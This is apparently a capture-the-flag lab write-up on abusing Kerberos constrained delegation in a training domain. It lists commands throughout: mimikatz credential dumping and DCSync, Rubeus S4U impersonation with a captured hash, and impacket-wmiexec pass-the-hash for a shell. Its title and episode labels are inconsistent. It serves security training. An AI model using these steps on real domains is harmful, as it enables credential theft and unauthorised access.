 ```yaml
---
date: 2025-04-23
categories: [CTF, ImmersiveLabs]
title: "IML - Kerberos: Ep.10 – Active Directory Certificate Services"
tags: ['impacket', 'kerberos', 'ldap', 'mimikatz', 'privilege escalation', 'rce', 'tryhackme', 'hackthebox', 'immersivelabs', 'thm', 'iml', 'htb']

description: "Kerberos Ep.10 – Constrained Delegation - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Kerberos: Ep.12 – Active Directory Certificate Services
IML - Kerberos: Ep.10 – Constrained Delegation


![image1](../resources/24572ad78ded4dd98fdf3c6ad76e3479.png)

- RDP:

```bash
xfreerdp /v:10.102.178.2 /u:s.villanelle /d:krbtown /p:Summ3r2021! +clipboard +drives /drive:root,/home/kali /dynamic-resolution

```
- Enumerating for constrained delegation:
  - Open Powerview_dev.ps1:

```powershell
. .\Powerview_dev.ps1
Get-DomainComputer -TrustedToAuth
```

![image2](../resources/929e32b85b234e2a8dabd20fc9e07801.png)


![image3](../resources/5bec82bd8acc4f948467580078970b92.png)


![image4](../resources/aa1e7bdd94104b41bae886da0de5adf0.png)


![image5](../resources/c1cb618a49bb4af48af5de15fd518b91.png)

- RDP to WKS-02
- Run mimikatz

```powershell
privilege::debug
sekurlsa::logonpasswords

```

![image6](../resources/c848a6fa7cc642dca0f7f15e5d943d62.png)


![image7](../resources/dc5ca5cbdc1b4844a52c7ac6aa02134a.png)

- Impersonate a.belridge, using workstation-02\$ as the target host:

```powershell
.\Rubeus.exe s4u /user:workstation-02$ /rc4:[HASH] /domain:krbtown.local /impersonateuser:a.belridge /msdsspn:"ldap/dc01.krbtown.local" /dc:dc01.krbtown.local /ptt

.\Rubeus.exe s4u /user:workstation-02$ /rc4:6ee2e72810d54399a588b424ac22df1e /domain:krbtown.local /impersonateuser:a.belridge /msdsspn:"ldap/dc01.krbtown.local" /dc:dc01.krbtown.local /ptt

```

![image8](../resources/1fb367d85ec84645869a9f58d631e39c.png)


![image9](../resources/6507e1cfe4f54498893b741d1128dd2e.png)


![image10](../resources/5f0674f9dc0b4c7aab78a87b27787a1e.png)


![image11](../resources/5b32eceaae30422989624bf7549904b9.png)


![image12](../resources/89cbbec614654ca7a6039fcec99f93ca.png)


![image13](../resources/cbed1e41eff34035b87a29e067e09fe5.png)

- Run Mimikatz on an elevated command prompt:

```bash
lsadump::dcsync /user:krbtown\a.belridge

```

![image14](../resources/ad8d9d01313046279b3849a1bbe84b0c.png)

- Use wmiexec to get shell:

```bash
impacket-wmiexec [DOMAIN][USERNAME]@[TARGET] -hashes '[LM-HASH]:[NT-HASH]'

impacket-wmiexec krbtown/a.belridge@10.102.93.148 -hashes 'a76a0f6f801d8430903f7f299c18dfc4:ed882753d4665914577c19b6b85ead51'

```

![image15](../resources/65b197d9a02d4da48061d4fea7a5b6bd.png)

